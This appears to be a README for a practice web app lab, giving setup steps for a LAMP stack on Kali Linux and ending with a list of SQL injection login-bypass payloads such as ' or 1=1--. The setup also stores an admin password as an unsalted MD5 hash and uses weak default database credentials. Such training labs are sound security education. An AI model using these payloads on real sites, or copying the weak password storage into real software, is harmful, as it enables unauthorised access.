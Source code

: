 # Install Linux, Apache, MySQL, PHP  stack on Kali linux v20.4
  ## Step 1: Install Apache 
  ```sh 
   sudo apt-get update
   sudo apt-get install apache2
  ```
  ## Step 2: Install MySQL
  ```sh 
   $sudo apt update
   $sudo apt-get install mysql-server
   $sudo apt install mariadb-server
  ```
  ## Installing MariaDB
  ```sh 
   $sudo apt update
   $sudo apt install mariadb-server
  ```
 ## Download the Code :
 ```sh 
   git clone https://github.com/anir0y/verzeo-webapp 
  ```
  ## Copying the Downloaded folder
  ```sh
  /var/www/html/
  ```
  ## Starting the Services(Apache2,MySql)
  ```sh
  $sudo service apache2 start
  $sudo service mysql start
  ```
  ## Connecting the server with database
  ```sh
  $sudo mysql -u root
  ```
  > Creating a Table

```sh
     CREATE TABLE IF NOT EXISTS `users` (
     `id` int(11) NOT NULL AUTO_INCREMENT,
     `username` varchar(200) NOT NULL,
     `password` varchar(33) NOT NULL,
      PRIMARY KEY (`id`)
   )  ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```
> Inserting Values into the table
```sh
INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3');
```
## Creating User and granting permission
```sh
>create user 'user'@'localhost' identified by 'password';
>grant all privileges on 'table'.* to 'user'@'localhost' identified by 'password';
```
## Changing the Configuration file on dbconf
```sh
<?php
$con = new mysqli("127.0.0.1", "user", "password", "table");
if ($con -> connect_error){
    die("Database Not Congigured Properly");
}
else{
   // echo ("DB connection is established sir");
}
?>
```
## Next Steps

1.  Open any Web browser and try to connect the webserver <mark>127.0.0.1/database/index.php/</mark>
   
# Steps to Bypass the Login Webpage
> Using sql injection trying different approached.
  * SQL Injection 101, Login tricks

     * admin' --
     * admin' #
     * admin'/*
     * ' or 1=1--
     * ' or 1=1#
     * ' or 1=1/*
     * ') or '1'='1--
     * ') or ('1'='1--
> ![Final](https://github.com/rahulrbk/rahul.github.io/blob/master/Capture1.PNG)



